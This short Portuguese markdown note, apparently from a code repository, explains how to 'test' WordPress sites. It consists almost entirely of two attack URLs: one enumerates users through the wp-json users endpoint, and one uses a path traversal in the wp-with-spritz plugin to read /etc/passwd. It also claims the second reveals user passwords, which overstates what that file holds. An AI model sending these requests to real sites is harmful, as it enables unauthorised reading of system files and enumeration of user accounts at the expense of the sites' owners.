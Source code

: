 # Como testar a vulnerablidade de um site wordpress:

Dados sensiveis:

https://dominios.x.x/wp-json/wp/v2/users


# Como testar vulnerabilidade do servidor web:

Descobrir possivel versão do servidor web e senha de usuarios:

https://dominio.x.x//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd



